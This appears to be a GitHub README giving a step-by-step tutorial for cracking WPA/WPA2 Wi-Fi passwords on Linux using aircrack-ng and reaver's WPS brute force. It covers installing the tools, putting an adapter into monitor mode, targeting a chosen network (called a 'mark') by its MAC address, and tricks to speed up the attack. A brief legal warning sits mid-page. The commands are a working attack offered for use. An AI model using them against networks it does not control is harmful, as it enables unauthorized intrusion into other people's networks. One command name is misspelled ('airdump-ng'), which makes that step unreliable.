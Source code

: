# How to crack wpa/wpa2 passwords with linux (tested on ubuntu and Elementary OS)

In order to crack wifi passwords with linux you need to install __aircrack-ng__ and __reaver__.

How to isntall aircrack-ng: www.aircrack-ng.org/install.html

Downloading reaver: http://code.google.com/p/reaver-wps/downloads/list

You might also need to install on you computer __libpcap-dev__ and __libsqlite3-dev__, in order to do that just type the following lines in the terminal:
```
sudo apt-get install libpcap-dev
```
AND
```
sudo apt-get install libsqlite3-dev
```

## Now, Lets start the attack

#### if the next lines of code does not work, all you need to do is to type sudo in front of each one

1. Firstly, disconnect yourself from any wifi networks and type this code:
```
airmon-ng start wlan0
```

2. Next you need to put your wifi adapter into monitor mode, which will list all available wifi signals around you.
```
airdump-ng mon0
```
Once airdump list all availble wifi signals around, you can move to the next step, the actual attack.

3.After you decide who is you mark, just write this command with the marks` mac adress in order to start the attack.
```
reaver -i mon0 -b 00:11:22:33:44:55 -vv
```

## Cracking wifi passwords can be against the law in your country. You should not do this at all!

##TRICKS:

1. Speading the attack
```
reaver -i mon0 -b 00:01:02:03:04:05 -vv -d 0
```
OR
```
reaver -i mon0 -b 00:01:02:03:04:05 -vv --dh-small
```
